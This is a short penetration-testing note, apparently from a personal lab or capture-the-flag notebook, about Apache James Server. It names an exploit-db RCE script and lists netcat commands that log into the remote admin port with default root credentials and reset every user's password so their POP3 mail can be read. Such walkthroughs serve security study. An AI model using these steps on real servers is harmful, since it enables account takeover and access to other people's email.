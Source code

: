 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### 35513 RCE
exploit 35513.py

#### Manual
```bash - kali
nc -nvC $TARGET 4555
```

[https://james.apache.org/server/archive/configuration_v2_0.html](https://james.apache.org/server/archive/configuration_v2_0.html)

```bash - kali
root
```

```bash - kali
root
```
   
```bash - kali
HELP
```

```bash - kali
listusers
```

We do not have the ability to view user credentials. However can do the next best thing: we can change them with the setpassword command. Once we do so, we should be able to log onto the POP3 server and see if there are any emails available. We'll go ahead and change all the user credentials and then log on one by one.

```bash - kali
setpassword alice abcd
```

```bash - kali
setpassword bob abcd
```

```bash - kali
setpassword carlos abcd
```

```bash - kali
setpassword david abcd
```

```bash - kali
setpassword earl abcd
```

```bash - kali
setpassword frank abcd
```

```bash - kali
quit
```

While we could login one-by-one with our newly controlled credentials, we might as well use a little bash in order to speed up the process.

![[Port 110 - POP3#POP3 sh]]

